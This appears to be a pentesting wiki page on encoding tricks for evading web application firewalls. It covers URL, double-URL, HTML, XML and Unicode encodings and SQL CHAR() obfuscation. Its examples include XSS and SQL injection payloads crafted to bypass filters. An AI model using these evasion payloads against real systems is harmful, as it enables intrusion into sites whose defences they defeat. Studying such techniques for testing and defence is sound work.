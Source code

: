```yaml
---
title: "General Obfuscation"
weight: 1
---
```


# General Obfuscation

{{< hint style=notes >}}
**Note**: for Javascript obfuscation go on [javascript-security-considerations.md](javascript-security-considerations.md "mention")
{{< /hint >}}

## URL encoding <a href="#obfuscation-via-url-encoding" id="obfuscation-via-url-encoding"></a>

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### Double URL encoding <a href="#obfuscation-via-double-url-encoding" id="obfuscation-via-double-url-encoding"></a>

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```sh
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### HTML encoding <a href="#obfuscation-via-html-encoding" id="obfuscation-via-html-encoding"></a>

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

## XML encoding

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## Multiple encodings <a href="#obfuscation-via-multiple-encodings" id="obfuscation-via-multiple-encodings"></a>

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

## SQL CHAR() function <a href="#obfuscation-via-the-sql-char-function" id="obfuscation-via-the-sql-char-function"></a>

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
